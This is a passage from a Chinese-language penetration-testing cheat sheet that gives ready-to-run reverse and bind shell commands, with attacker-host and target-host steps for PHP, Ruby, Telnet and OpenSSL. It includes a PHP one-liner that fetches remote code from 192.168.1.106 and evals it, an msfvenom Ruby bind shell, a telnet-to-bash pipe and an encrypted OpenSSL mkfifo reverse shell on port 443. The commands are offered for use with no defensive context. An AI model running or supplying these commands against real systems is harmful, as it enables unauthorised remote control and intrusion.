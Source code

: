 **靶机**

msf产生的payload

```bash
php -d allow_url_fopen=true -r "eval(file_get_contents('http://192.168.1.106:8080/o0lAy1wJfqoU', false, stream_context_create(['ssl'=>['verify_peer'=>false,'verify_peer_name'=>false]])));"
```

## Ruby

**攻击机**

```bash
msfvenom -p cmd/unix/bind_ruby lport=9999 -f raw
#同上用python开启http，msf开启监听
```

**靶机**

执行msfvenom产生的payload

```bash
ruby -rsocket -e 'exit if fork;s=TCPServer.new("9999");while(c=s.accept);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end;end'
```

## Telnet

**攻击机**

```bash
nc -lvvp 9998
```

开一个新终端

```bash
nc -lvvp 9999
```

**靶机**

```bash
telnet 192.168.1.106 9998 | /bin/bash | telnet 192.168.1.106 9999
```

## OpenSSL

> openssl反弹443端口，流量加密传输

1. 在远程攻击主机上生成秘钥文件

   ```BASH
   openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
   ```

2. 在远程攻击主机上启动监视器

   ```BASH
   openssl s_server -quiet -key key.pem -cert cert.pem -port 443
   ```

3. 在目标机上反弹shell

   ```BASH
   mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client - quiet -connect 192.168.1.106:443 > /tmp/s; rm /tmp/s
   ```

